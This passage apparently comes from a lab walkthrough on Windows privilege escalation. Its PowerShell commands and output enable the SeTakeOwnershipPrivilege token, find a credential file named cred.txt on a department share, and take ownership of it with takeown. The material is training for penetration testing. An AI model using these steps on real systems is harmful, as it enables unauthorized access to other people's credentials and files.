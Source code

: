 ```c
PS C:\> Import-Module .\Enable-Privilege.ps1
PS C:\> .\EnableAllTokenPrivs.ps1
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

#### Choosing a Target File

```c
PS C:\> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```


#### Checking File Ownership

```c
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

#### Taking Ownership of the File

```c
PS C:\> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

#### Confirming Ownership Changed

```c
PS C:\> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```
